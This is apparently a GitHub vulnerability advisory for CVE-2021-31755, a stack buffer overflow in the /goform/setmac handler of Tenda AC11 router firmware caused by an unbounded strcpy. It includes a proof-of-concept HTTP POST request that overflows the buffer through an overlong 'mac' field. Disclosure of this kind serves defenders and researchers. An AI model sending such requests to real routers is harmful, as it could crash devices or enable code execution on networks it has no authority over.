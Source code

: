 # Tenda Router AC11 Vulnerability
The Vulnerability is in `/goform/setmac` page which influence the lastest version of this router OS. (this is a RTOS that are different from linux system)
The Version is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html)

## Vulnerability description
An issue was discovered on Tenda AC11 devices with firmware through 02.03.01.104_CN. A stack buffer overflow vulnerability in `/goform/setmac` allows attackers to execute arbitrary code on the system via a crafted post request.

In the function `sub_800CF7DC` (page `/gofrom/setmac`) have one stack buffer overflow vulnerability.

1. It isn't limit our input when we input `mac` in `input`.
2. Then if the `input` is different from the nvram in `trust list`, `input` will copy to a stack value `v14` by using `strcpy(v14, input);`.strcpy couldn't limit copy length ,so wo can make stack buffer overflow in `v14`
![](./1.png)

## poc 

```
POST /goform/setmac HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&mac=1C-1B-B5-F5-3E-3Fabcd&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true&wanType=static
```
## Acknowledgment 

Credit to [@Yu3H0](https://github.com/Yu3H0/),[@peanuts](https://github.com/peanuts62), [@leonW7](https://github.com/leonW7) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

## CVE ID
CVE-2021-31755